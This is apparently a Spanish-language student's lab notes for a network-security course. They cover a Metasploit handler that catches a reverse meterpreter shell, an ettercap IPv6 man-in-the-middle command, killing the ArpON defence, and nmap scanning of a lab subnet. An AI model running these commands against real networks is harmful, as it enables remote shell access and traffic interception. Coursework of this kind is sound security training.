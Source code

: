 > `msfconsole`

```bash
use multi/handler
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST 10.11.48.51
set LPORT 5555
set ExitOnSession false
exploit -j -z
```



Ahora estamos dentro del cliente desde el atacante.

> [!Note]
> Usar `sessions 1` si se nos queda pillado 
> Para salir podemos usar: `msf6 exploit(multi/handler) > exit -y`


# H - MITM en IPV6

Haga un MITM en IPv6 y visualice la paquetería.

> `ettercap -6 -T -q -i ens33 -M arp:remote //2002:a0b:3136::1/ //::10.11.48.1/`

>[!Note]  
>El resto funciona como el [segundo apartado](https://github.com/Meleagrista/legislacion-seguridad-informatica/edit/main/practica-2/p2-defensa.md#apartado-b).

# I - Arpon (socorro)

Para vaciar la tabla arp `ip -s -s neigh flush all

> [!note] 
> Para saber si nos han spoofeado, tenemos que correr el comando :
> `ip neigh show`
> Y ver que la gateway es nuestro compañero
> 

> [!important] 
> MATAR ARPON → `ps -A | grep arpon` y luego `kill <process>`
> Para mas seguridad programar reinicio `shutdown -r +10`


# J - Port Scanning y etc

Pruebe distintas técnicas de host discovery, port scanning y OS fingerprinting sobre la máquinas del laboratorio de prácticas en IPv4.

> `nmap -A 10.11.48.0/23 > nmap_full.txt`

>[!Warning] 
Es muy lento, quita el A a ver.

